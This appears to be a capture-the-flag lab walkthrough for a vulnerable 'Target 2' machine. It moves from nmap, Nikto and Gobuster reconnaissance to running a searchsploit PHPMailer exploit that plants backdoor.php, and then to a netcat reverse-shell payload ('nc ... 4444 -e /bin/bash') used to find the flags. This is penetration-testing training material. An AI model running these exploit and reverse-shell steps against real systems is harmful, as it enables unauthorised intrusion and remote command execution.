 # **TARGET 2 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other techniques have been explored. Look at the PowerPoint presentation and the Penetration Testing Report Target 2 to find more methods not specified in this walkthrough.

---

Tools:

- Kali Linux
- Q shell
- Namp
- Nikto
- Gobuster
- FireFox Browser
- Searchsploit
- Bash Script
- NetCat

---

## **Walkthrough**

1. A glimpse at the Kali Linux machine IP and network addresses.

        ifconfig

    ![1](/Images/4/1.PNG)

2. Network FootPrinting (find machines on the network).

        nmap 192.168.1.0/24

    ![2](/Images/4/2.PNG)

3. Target2 fingerprinting (find services and ports on target2).

        nmap -sV 192.168.1.115 

    ![3](/Images/4/3.PNG)

4.  Look for Webserver vulnerabilities using Nikto.

        nikto -C all -h 192.168.1.115

    ![4](/Images/4/4.PNG)

5. Scan for paths using Gobuster.

        gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115

    ![5](/Images/4/5.PNG)

6. Explore path `192.168.1.115/vendor/` using the browser.
   
        192.168.1.115/vendor/

    **PHPMAILER detected.**

    ![6](/Images/4/6.PNG)     
   
7. Double click "PATH".

    **flag1**

    ![7](/Images/4/7.PNG)

8. Double "Click SECURITY.md".

    **It reveals vulnerable versions of PHPMAILER.**

    ![8](/Images/4/8.PNG)    

9.  Double "Click VERSION".

    **It reveals the PHPMAILER version in use.**

    ![9](/Images/4/9.PNG)  

10. Search for scripts to exploit PHPMAILER with Searchsploit.

        searchsploit phpmailer

    ![10](/Images/4/10.PNG)  

11. A glance at script 40968.sh

        searchsploit phpmailer -x php/webapps/40968.sh     

    **Press "q" keyboard to quit view.**

    ![11](/Images/4/11.PNG) 

12. Download the script to the current folder.

        searchsploit phpmailer -m php/webapps/40968.sh

    ![12](/Images/4/12.PNG)

13. Authorize file to execute.

        sudo chmod 777 40968.sh

14. Run exploit.

        ./40968.sh 192.168.1.115

    ![13](/Images/4/13.PNG)

    > Note: PHPMAILER can be exploited. Nevertheless,  the shell from this script does not allow us to do much. After researching, "exploit.sh" was discovered. It allows for creating a more useful shell.

    Script: [exploit.sh](/Resources/explot.sh)

15. Change the URL on the script.

        nano exploit.sh

    ##### Note: **To exit nano: "CTRL X", then "y" and "enter".**

    ![14](/Images/4/14.PNG)

16. Authorize file to execute.

         sudo chmod 777 exploit.sh

17. Execute the file.

        ./exploit.sh

    ![15](/Images/4/15.PNG)

18. Set Kali Linux Machine to listen using the NetCat command.

         nc -lnvp 4444

    ![16](/Images/4/16.PNG)

19. Make Target2 call the Kali Linux machine with the NetCat command embedded in the next payload after running it in the browser.

        192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash

    **Change the second IP address in the payload to the IP address of your own kali Linux machine.**

    ![17](/Images/4/17.PNG)

21. Look for flags.

        find /var/www -type f -iname 'flag*'

    ![18](/Images/4/18.PNG)

22. Open the file.

        cat /var/www/flag2.txt

    **flag2**

    ![19](/Images/4/19.PNG)

23. Search for others flags.

        find -type f -iname '*flag*'

    **The "./" previous "WordPress" means the file is active on WordPress.**

    ![20](/Images/4/20.PNG)

24. Insert the path on the browser.

        http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png

    **flag3**
   ![21](/Images/4/21.PNG)